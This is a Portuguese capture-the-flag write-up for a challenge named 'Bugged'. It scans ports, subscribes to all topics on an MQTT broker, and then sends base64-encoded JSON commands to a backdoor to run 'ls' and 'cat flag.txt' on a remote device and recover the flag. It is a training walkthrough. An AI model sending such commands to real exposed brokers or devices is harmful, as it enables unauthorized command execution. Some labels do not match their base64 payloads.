







# Bugged

---

>#### Write-Up by VESPAS 
>##### ***Written by:*** Augusto Graeml (gra3ml)
>##### ***Redacted by:*** Gabriel Rossetto (R0SSETT0)

__

Nesse desafio temos um MQTT-broker com tópicos no mínimo curiosos.
Interagindo com eles podemos identificar um backdoor na rede. Vamos começar! 

__

## Primeiro scaneamos as portas

``` bash
nmap -sV -p- --min-rate=2000 <IP>
```
__

## Interagindo com o Broker
Não sabemos o tópico de interesse ainda, então usamos o wildcard # para entender melhor o que está acontecendo na rede:
``` bash
mqttx sub -t"#" -h IP
```
__
É possível ver uma mensagem estranha no meio das outras. Decodando de base64 temos algumas informações valiosas, como um ID de dispositivo, um tópico de publicações e um tópico de subscrições e alguns comandos possíveis.

``{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}``

**Vamos testar:**

Publicando a mensagem:
``` bash
mqttx pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "HELP" -h <IP>
```
Lendo a mensagem publicada:
``` bash
mqttx sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP> 
```
**resposta:**
__

### Decodando: 

Format: base64({"id": "backdoor id", "cmd": "command", "arg": "argument"})

### Enviando um primeiro payload:

``{"id": "id backdooor", "cmd": "CMD", "arg" : "ls"}``

em base64:
``eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==``
__


**resposta:**
__

``{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}``

### Enviando o commando para a recuperação da flag:

base64 -> {"id": "id backdooor", "cmd": "CMD", "arg" : "ls"} 

Commando completo com o payload em base64...
``` bash
mqttx pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m"eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=" -h <IP>
``` 

### Recuperando a flag:
``` bash
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9" | base64 -d
```
__
### Room finalizada!